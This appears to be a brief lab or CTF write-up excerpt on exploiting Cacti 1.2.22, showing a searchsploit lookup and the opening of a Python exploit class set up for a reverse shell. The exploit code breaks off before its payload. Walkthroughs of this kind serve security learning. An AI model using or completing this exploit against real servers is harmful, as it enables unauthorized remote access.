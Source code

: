 ![](./IMG/4.png)

- Search Exploit code 
```
searchsploit cacti | grep '1.2.22'
```

![](./IMG/5.png)
- Find another video talked about this issue and he do a little modfication on it.
> Original Exploit Code 
```
#![]usr/bin/env python3
import random
import httpx, urllib

class Exploit:
    def __init__(self, url, proxy=None, rs_host="",rs_port=""):
        self.url = url 
        self.session = httpx.Client(headers={"User-Agent": self.random_user_agent()},verify=False,proxies=proxy)
        self.rs_host = rs_host
        self.rs_port = rs_port

    def exploit(self):
        # cacti local ip from the url for the X-Forwarded-For header
        local_cacti_ip  = self.url.split("//")[1].split("/")[0]
```